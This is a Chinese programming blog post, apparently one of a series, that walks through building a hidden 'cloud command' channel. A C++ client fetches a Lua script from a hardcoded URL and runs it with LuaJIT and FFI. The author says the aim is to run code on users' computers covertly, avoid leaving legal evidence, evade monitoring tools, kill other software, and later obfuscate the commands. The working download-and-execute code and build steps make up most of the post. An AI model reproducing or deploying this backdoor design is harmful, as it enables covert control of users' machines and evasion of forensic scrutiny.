

&emsp;&emsp;首先我们思考下“云指令”的优点：  
&emsp;&emsp; 1.  **一次性执行，在客户端几乎无法得知其被执行的证据**。在CS体系结构中，如果我们要完成某个业务需求，往往要修改二进制文件，并发布到客户端。这样，我们在客户端的副本将有机会去执行相关逻辑。如果我们要做些坏事，比如暗杀某个软件，我们要是在客户端写死这个逻辑，很容易被逆向从而被举证。这将面临法律风险。如果我们服务端向客户端发一些指令（二进制流），这些指令会被执行，从而做些操作，将很难会被发现。  
&emsp;&emsp;2. **节约流量**。有人可能会想，那为什么不从服务端直接拉一个Exe去做这样的操作呢？如果去拉取Exe，将很容易被FileMon这类软件发现，从而让举证者轻易拿到我们Exe文件并终止我们“毁尸灭迹”的操作。这就是为什么不发一些小的Exe去执行指令的原因。还有一个原因便是文件大小，Exe文件一般来说会比我们编写的Lua脚本要大。  

&emsp;&emsp;我想第一点就已经非常吸引你了，试想，如果有了此功能，那么我们就可以轻易操控用户的电脑了。
&emsp;&emsp;下面我们看下如何实现这样的一个“云指令”系统。  
&emsp;&emsp;1. 编译生成一个Luajit的Lib文件  
&emsp;&emsp;紧接前一篇文章。我们新建一个名字叫LuajitLib的工程。它的目的和LualibProject工程相似——生成一个lib文件。但是我们这次要生成一个我们已知导出函数的一个lib，该函数将完成执行指令的操作。  
&emsp;&emsp;和LualibProject工程一样，我们要链接Lua工程生成的obj文件。在Librarian->General->Additional Dependencies中设置  
```bash
$(TargetDir)libobj\lib_*.obj  
$(TargetDir)ljobj\lj_*.obj  
$(TargetDir)lj_vm.obj
```
&emsp;&emsp;在Librarian->General->Export Named Functions中设置导出函数名**ExcuteLuaString**
&emsp;&emsp;在C\C++->General->Additional Include Directories中设置我们要引入的头文件目录  
```bash
"$(SolutionDir)Header";"$(SolutionDir)OtherHeader"  
```
&emsp;&emsp;其他和LualibProject一样。我们给LuajitLib工程新建一个头文件  
```c++
#pragma once  
  
#ifdef __cplusplus  
#define EXTERN_C extern "C"  
#else  
#define EXTERN_C extern  
#endif   
  
EXTERN_C void ExcuteLuaString( const char* lpBuffer, unsigned long ulBufferSize );  
```
&emsp;&emsp;其中第一个参数是我们传入指令的地址，第二个参数是指令的长度。  

```c++
#include "ExcuteLua.h"  
  
#include "lualib.h"  
#include "lauxlib.h"  
  
void ExcuteLuaString( const char* lpBuffer, unsigned long ulBufferSize )  
{  
    int nStatus = 0;  
    lua_State* L = luaL_newstate();  
    luaL_openlibs(L);  
    nStatus = luaL_loadbufferx( L, lpBuffer, ulBufferSize, NULL, NULL );  
    nStatus = lua_pcall(L, 0, 0, 0);  
    lua_close(L);  
}  
```

&emsp;&emsp;2. 编一个简易的客户端。  
&emsp;&emsp;为了尽量简易，我们就新建一个名字为LuaConsoleTest的Console程序。该工程将引用1中生成的lib文件。  
&emsp;&emsp;同时，该工程提供一个下载工程，即模拟从服务端下发数据。  

```c++
#define MAXBLOCKSIZE 1024  
BOOL GetCloudCmd( const std::string& strUrl, std::string& strCmd )  
{  
    BOOL bSuc = FALSE;  
    do {  
        HINTERNET hSession = InternetOpenA("IE/1.0 ", INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);  
        if ( NULL == hSession ) {  
            break;  
        }  
  
        HINTERNET handle = InternetOpenUrlA(hSession, strUrl.c_str(), NULL,  0 , INTERNET_FLAG_DONT_CACHE, 0);  
        if ( NULL == handle ) {  
            break;  
        }  
  
        byte Temp[MAXBLOCKSIZE] = {0};  
        ULONG Number = 1 ;  
  
        while (Number >  0 ) {  
            InternetReadFile(handle, Temp, MAXBLOCKSIZE - 1,& Number );  
            strCmd.append((char*)Temp);  
            memset(Temp,0, MAXBLOCKSIZE);  
        }   
  
        InternetCloseHandle(handle);  
        handle  =  NULL;  
  
        InternetCloseHandle(hSession);  
        hSession  =  NULL;  
  
        bSuc = TRUE;  
    } while (0);  
    return bSuc;  
      
}
```
&emsp;&emsp;在主程序中，我将执行获取“云端指令”和执行指令的操作。

```c++
int _tmain(int argc, _TCHAR* argv[])  
{  
    std::string strUrl = "http://dl5.csdn.net/fd.php?i=341748182061456&s=95f3ecf9a259c4f38fcf60493a699287" ;  
    std::string strCmd = "";  
    if ( GetCloudCmd(strUrl, strCmd) )  
    {  
        ExcuteLuaString(strCmd.c_str(), strCmd.length());  
    }  
    return 0;  
}  
```
&emsp;&emsp;该段中URL是我写死的一个地址。这是为了简易，如果想搞的复杂，可以考虑让服务器下发地址或者直接下发命令。
&emsp;&emsp;我在服务端保存的是一个简易的Lua脚本。**该脚本使用了ffi库，即让我们可以像使用C语言一样写Lua脚本，这个也是令人非常激动的一点。**  
```c++
local ffi = require "ffi"   
ffi.cdef[[unsigned int GetTickCount()]]   
print(ffi.C.GetTickCount())  
```
&emsp;&emsp;这样，客户端就执行了”云指令“——打印出TickCount。  
  
&emsp;&emsp;可能有人会提出更高的要求，比如这个Lua的内容太长了！其实它真的不长，但是的确我们可以让它短点，而且让这样的函数名不再明显，增加破解者阅读的难度。我会在之后讲解如何去封转自己的Lua库，如何编写更“难以阅读”，更简短的“云指令”。